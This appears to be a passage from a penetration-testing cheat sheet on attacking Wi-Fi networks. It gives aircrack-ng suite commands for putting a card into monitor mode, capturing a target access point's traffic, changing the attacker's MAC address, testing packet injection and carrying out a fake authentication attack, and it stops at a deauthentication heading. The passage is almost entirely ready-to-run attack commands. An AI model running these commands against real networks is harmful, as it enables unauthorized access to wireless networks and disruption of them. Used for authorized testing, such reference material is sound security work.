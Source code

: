 ```powershell
# check and kill processes that could interfere with our monitor mode
airmon-ng check
airmon-ng check kill
# pkill dhclient; pkill wpa_supplicant; pkill dhclient3

# list AP
airodump-ng mon0
airodump-ng mon0 -c 3 # only on a particular channel e.g: 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w clearcap # dump traffic

# get our macaddress
macchanger -s mon0 
macchanger --show mon0

# replay and accelerate traffic
aireplay-ng
    * -i interface
    * -r file.pcap

# check aireplay card compatibility
aireplay-ng -9 mon0 -> test injection
aireplay-ng -9 -i wlan1 mon0 -> test card to card injection

# injection rate
iwconfig wlan0 rate 1M

# Aircrack compatibility
http://www.aircrack-ng.org/doku.php?id=compatibility_drivers#list_of_compatible_adapters
Alfa AWUS036H / TPLink WN722
```

#### Fake authentication attack

:warning: use it before each attack

```powershell
airodump-ng -c 3 --bssid $AP_MAC -w wep1 mon0

# fake authentication = no arp
aireplay-ng -1 0 -e AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0
    * Might need a real $ATTACKER_MAC, observe traffic using airodump
	> Association successful! :-)

# fake authentication for picky AP
# Send keep-alive packets every 10 seconds
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# might need to fake your MAC ADDRESS first
```

#### Deauthentication attack
